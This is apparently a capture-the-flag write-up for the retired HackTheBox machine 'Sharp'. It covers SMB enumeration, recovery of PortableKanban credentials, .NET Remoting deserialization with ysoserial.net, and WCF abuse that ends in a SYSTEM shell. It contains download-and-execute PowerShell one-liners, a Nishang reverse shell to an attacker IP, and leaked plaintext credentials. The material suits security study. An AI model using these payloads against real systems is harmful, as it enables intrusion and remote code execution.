

# Sharp

This is the write-up for the box Sharp that got retired at the 1st May 2021.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.219    sharp.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/sharp.nmap 10.10.10.219
```

```
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Full TCP port scan:
```
nmap -p- 10.10.10.219
```
```
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
5985/tcp open  wsman
8888/tcp open  sun-answerbook
8889/tcp open  ddi-tcp-2
```

Running service enumeration scans on port 8888 and 8889:
```
nmap -p 8888,8889 -sC -sV  10.10.10.219
```
```
PORT     STATE SERVICE            VERSION
8888/tcp open  storagecraft-image StorageCraft Image Manager
8889/tcp open  mc-nmf             .NET Message Framing
```

## Checking SMB (Port 445)

Enumerating operating system information from SMB:
```
crackmapexec smb 10.10.10.219

SMB         10.10.10.219    445    SHARP            [*] Windows 10.0 Build 17763 x64 (name:SHARP) (domain:Sharp) (signing:False) (SMBv1:False)
```

Enumerating SMB shares with **Null authentication**:
```
crackmapexec smb 10.10.10.219 --shares -u '' -p ''
```
```
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
dev                             
IPC$                            Remote IPC
kanban          READ
```

The share _kanban_ has read permissions:
```
smbclient -N //10.10.10.219/kanban

smb: \> dir
```

In there are around 23 files consisting of DLL, PK3, BAK files and one ZIP file.
Downloading all files:
```
smb: \> mget *
```

Decompressing the ZIP file _pkb.zip_:
```
unzip pkb.zip
```

The archive has similar filenames and also a compiled EXE file _PortableKanban.exe_.
As these are executable files on Windows, lets start an SMB client to access and analyze the files on **Commando VM**:
```
impacket-smbserver -smb2support -user anyone -password Super1Secure2Pass share $(pwd)
```

### Analyzing Executable

The file _PortableKanban.pk3_ contains some kind of credentials:
```
(...)
"Id": "e8e29158d70d44b1a1ba4949d52790a0",
"Name": "Administrator",
"EncryptedPassword": "k+iUoOvQYG98PuhhRC7/rg==",
"Role": "Admin",

"Id": "0628ae1de5234b81ae65c246dd2b4a21",
"Name": "lars",
"EncryptedPassword": "Ua3LyPFM175GN8D3+tqwLA==",
"Role": "User",
(...)
```

The ZIP archive does not have these PK3 files, but when executing _PortableKanban.exe_ for the first time and configuring the options, the files will be created.

Creating an admin user by modifying the _PortableKanban.pk3.bak_ file:
```
(...)
{"Id":"e8e29158d70d44b1a1ba4949d52790a2","Name":"newuser","Initials":"","Email":"","EncryptedPassword":"","Role":"Admin","Inactive":false,"TimeStamp":637409769245503731}
(...)
```

After deleting the _PortableKanban.pk3_ file and executing the executable, it will recover the configurations from the BAK file.
With the _newuser_ it is possible to login and unmask the credentials of the users in the setup:



```
Administrator:G2@$btRSHJYTarg
lars:G123HHrth234gRG
```

The credentials of the user _lars_ works and has read access on the share _dev_:
```
smbmap -u lars -p G123HHrth234gRG -H 10.10.10.219
```
```
Disk      Permissions     Comment
----      -----------     -------
ADMIN$    NO ACCESS       Remote Admin
C$        NO ACCESS       Default share
dev       READ ONLY
IPC$      READ ONLY       Remote IPC
kanban    NO ACCESS
```

### Enumerating SMB Share

Accessing the SMB share _dev_ with the user _lars_ and downloading all files:
```
smbclient -U lars //10.10.10.219/dev

smb: \> mget *
```

In there are two EXE files and one DLL file and one note:
- Client.exe
- Server.exe
- RemotingLibrary.dll
- notes.txt

The file _notes.txt_ has the following information:
```
Todo:
    Migrate from .Net remoting to WCF
    Add input validation
```

By analyzing the files with **dnSpy** on Windows, we can find out more information about these **.NET binaries**.

The `StartServer()` function in _Server.exe_ shows that a service is running on port 8888:
```cs
((IDictionary)hashtable)["port"] = 8888;
(...)
```

The `main()` function in _Client.exe_ contain secrets for the service on port 8888:
```cs
IDictionary channelSinkProperties = ChannelServices.GetChannelSinkProperties((Remoting)Activator.GetObject(typeof(Remoting), "tcp://localhost:8888/SecretSharpDebugApplicationEndpoint"));

channelSinkProperties["username"] = "debug";
channelSinkProperties["password"] = "SharpApplicationDebugUserPassword123!";
```

In _RemotingLibrary.dll_ there is not much information, but this binary probably uses the **.NET Remoting** library and the _notes.txt_ also confirms that.

## Exploiting .NET Remoting (Port 8888)

This [article from NCC Group](https://research.nccgroup.com/2019/03/19/finding-and-exploiting-net-remoting-over-http-using-deserialisation/) explains how to exploit .NET Remoting and I will use the tool [ExploitRemotingService](https://github.com/tyranid/ExploitRemotingService) from GitHub.

Creating a serialized object with the [YSoSerial.Net](https://github.com/pwntester/ysoserial.net) utility:
```
ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/shell.ps1')"
```
```
AAEAAAD/////AQAAAAAAAAAMA(...)
```

The _Invoke-PowerShellTcp.ps1_ from the **Nishang** scripts will be used as the reverse shell _(shell.ps1)_.
```
(...)
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.12 -Port 9001
```

Using _ExploitRemotingService_ to send and execute the serialized object on the box:
```
ExploitRemotingService.exe -s --user=debug --pass="SharpApplicationDebugUserPassword123!" tcp://10.10.10.219:8888/SecretSharpDebugApplicationEndpoint raw AAEAAAD/////AQAAAAAAAAAMA(...)
```

The box will execute the serialized object, which executes the Base64-encoded PowerShell command to download and run _shell.ps1_ and the listener on my IP and port 9001 starts a reverse shell as the user _lars_.

## Privilege Escalation

In the home directory _C:\Users\lars\Documents\wcf_ are more files that seem to be another .NET project.

Compressing the directory:
```
Compress-Archive -Path wcf -DestinationPath wcf.zip
```

Uploading it to our local client:
```
net use x: \\10.10.14.12\share Super1Secure2Pass /user:anyone

copy wcf.zip x:\
```

The acronym **WCF** stands for [Windows Communication Foundation](https://docs.microsoft.com/en-us/dotnet/framework/wcf/whats-wcf).

In the _Client/Program.cs_ it shows that the service is running on port 8889:
```cs
new NetTcpBinding(SecurityMode.Transport),"net.tcp://localhost:8889/wcf/NewSecretWcfEndpoint"
```

In _RemotingLibrary/Remoting.cs_ there are several functions and one of them is called _InvokePowerShell_.

Modifying _Client/Program.cs_ to connect to the IP of the box and also execute the function _InvokePowerShell_:
```cs
// (...)
ChannelFactory<IWcfService> channelFactory = new ChannelFactory<IWcfService>(
             new NetTcpBinding(SecurityMode.Transport),"net.tcp://10.10.10.219:8889/wcf/NewSecretWcfEndpoint"
         );
         IWcfService client = channelFactory.CreateChannel();
         Console.WriteLine(client.GetDiskInfo());
         Console.WriteLine(client.GetCpuInfo());
         Console.WriteLine(client.GetRamInfo());
         Console.WriteLine(client.InvokePowerShell("IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/shell.ps1')"));
     }
```

After rebuilding the new binary with the PowerShell function, we can start a cmd shell as _lars_ from our local Windows client:
```
runas /user:lars /netonly cmd
```

Executing the new binary _wcf\Client\bin\Release>WcfClient.exe_ from the `runas` command line:
```
WcfClient.exe
```

It will run the _InvokePowerShell_ function to download and execute _shell.ps1_ and the listener on my IP and port 9001 starts a reverse shell as SYSTEM!
